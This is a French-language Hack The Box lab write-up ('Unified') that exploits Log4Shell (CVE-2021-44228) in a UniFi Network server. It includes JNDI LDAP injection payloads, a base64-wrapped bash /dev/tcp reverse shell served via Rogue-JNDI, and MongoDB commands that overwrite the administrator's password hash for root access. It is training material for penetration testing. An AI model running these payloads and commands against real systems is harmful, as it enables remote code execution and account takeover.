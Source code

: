 ## Lab Title: Unified
- Date: 2025-09-27
- Duration: ~120 minutes

### Platform: HTB – Starting Point > Tier 2

### 1. Scenario Summary
1. Apprender comment exploiter **Log4j**

### 2. Findings
1. Exécuter: `Nmap`:
    - `nmap $ip -Pn --top-ports=10000`
    - On a trouvé ces ports ouverts:
    ```code
        PORT     STATE SERVICE
        22/tcp   open  ssh
        6789/tcp open  ibm-db2-admin
        8080/tcp open  http-proxy
        8443/tcp open  https-alt
        8843/tcp open  unknown
        8880/tcp open  cddbp-alt
    ```
2. Quand, on a analysé le port: `nmap $ip -Pn -sV -p T:8443`
    - On a trouvé le logiciel: `ssl/nagios-nsca Nagios NSCA`
    - Aussi, on a analysé: `https://10.129.152.123:8443` et on a trouvé: `Unifi Network` fonctionne avec la version: `6.4.54`

3. Cette version est associé avec la vulnerabilité: `CVE-2021-44228`

4. Cette vulnerabilité est associé avec **Apache Log4j** et l'attaque: **Remote Code Execution**
    - **Apache Log4j** >> une bibliothique où les dévelopeurs peuvent stocker les logs et les données differentes.
    - En cas particuliers, ce log peut venir comme `User Input` et il peut contenir les caractéristiques spéciales.
    - Enfin, le methode **Java**: **lookup** est appelé pour exécuter ce `input` >> `remote code execution`

5. Cette injection est arrivé avec ce protocole: `LDAP`

**Web Proxies:**
    - On utilise **Burp Suite** pour modifier `POST` demande
    - Dans le site Web, on fait login `admin:admin` et capture le `HTTP POST` avec `Burp Suite`
    - Utilisant `Repeater`, on place une modification dans la section: `remember`
        - `"${jndi:ldap://10.10.14.77/whatever"` >> c'est notre **payload**
        - **JNDI** >> Java Naming Directory Interface API:
            - En appelant cet API, les applications localisent des ressources et d'autres objets de programme.
            - Une ressource est un objet de programme qui fournit des connexions
            - à des systèmes tels que des serveurs de base de données et de systèmes de messagerie.
    - Après, on peut utiliser `traffic interception` pour vérifier si le serveur veut faire des connexions avec nous dans le port: `389` (LDAP)

6. On peut utiliser `tcpdump` pour montrer que le serveur a une vulnerabilité:
    - `sudo tcpdump -i tun0 port 389` et Appuyer sur le bouton `Send` dans le `Repeater` de `Burp Suite`
    - Après cela, on peut voir la connexion de la machine victime à notre machine: Voilà, cela montre une vulnerabilité:
    ```code
        snapshot length 393223 bytes 10:23:32.428116, IP 10.129.151.153.56242 > 10.10.14.77.ldap:
    ```

7. On doit installer `Open-JDK` et `Maven` pour creer une payload:
    - On a l'outil appelé: **Rogue-JNDI** >>
        - `git clone https://github.com/veracode-research/rogue-jndi`
        - `mvn package` >> pour construire le package.

8. Pour obtenir le `reverse shell`, on doit donner notre payload à **Rogue-JNDI** serveur:
    - `echo 'bash -c bash -i >&/dev/tcp/10.10.14.74/3828 0>&1' | base64` >> notre payload
    - `java -jar target/RogueJndi-1.1.jar --command "bash -c {echo,BASE64 STRING HERE}|{base64,-d}|{bash,-i}" --hostname "{YOUR TUN0 IP ADDRESS}"`

    - Pour capturer `reverse shell` on commence **NetCat**: `nc -lvnp 3828`
    - Dans le `Burp Suite` on change le payload: `${jndi:ldap://10.10.14.77:1389/o=tomcat}`
    - On a obtenu le `reverse shell`

**Privelege Escalation:**
9. Quand on a analysé: `ps aux | grep mongo` >> le port `27117` est ouvert et fonctionne bien
    - On essaye pour obtenir le mot de passe de l'Administrator de `Mongo Database`
        - `mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"`
            - **ace** >> `le nom du base de données par défaut pour l'application: Unifi`
            - **eval** : évaluer JSON script ici
    - On voit le mot de passe de l'Administrator: mais il est dans `x_shadow` >> on ne peut pas cracker  cela:
        - `$6$dksoidsiosid.L....`
    - **Donc, on peut remplacer ce mot de passe par un nouveau mot de passe:**
    - Pour cela, on utilise `mkpasswd` avec son nouveau mot de passe:
    - `mkpasswd -m sha-512 HelloMario`
        - Car `$6$` est un identifiant de `SHA-512`.

10. On fait un remplacement:
    ```don
        mongo --port 27117 ace --eval 'db.admin.update({"_id": ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"SHA_512 Hash Generated"}})'
    ```
    - Maintenant, on peut utiliser le compte de l'administrator avec son mot de passe: **administrator:HelloMario**
    - Dans le site Web, on fait login et il est possible de se connecter par **ssh**.
    - Et on a trouvé le mot de passe pour l'administrator: `NotACrackablePassword4U2022`

11. `ssh root@10.129.151.153` avec le mot de passe au-dessus. Voilà, c'est fini!

### 3. Idea
1. Log4j Exploitation.
2. Point d'entrée : l'application vulnérable (par exemple, un serveur Java qui enregistre des données contrôlées par l'attaquant) contient une recherche Log4j de type `JNDI:ldap://attacker/...` dans un message de journal ou toute chaîne formatée par Log4j.

3. Déclencheur (Trigger): lorsque Log4j traite la chaîne(string), il effectue une recherche JNDI grâce à l'expression `${jndi:...}.`

4. Rappel réseau : la **JVM** effectue une requête réseau `(LDAP/RMI/HTTP)` auprès du service contrôlé par l'attaquant indiqué dans l'URL JNDI.

5. Livraison de payload: le service contrôlé par l'attaquant répond avec une référence qui force la JVM à récupérer et exécuter une classe Java distante (ou à désérialiser/exécuter la charge utile), ce qui entraîne l'exécution de code à distance sur l'hôte victime.

6. Action post-exploitation: le code distant exécute ce que vous avez intégré, une commande shell qui lance un shell inversé sur notre machine.

7. L'attaque se situe donc au niveau de la chaîne de journalisation/format → recherche JNDI → chargement de classe à distance → point d'exécution du code dans la chaîne d'exploitation.
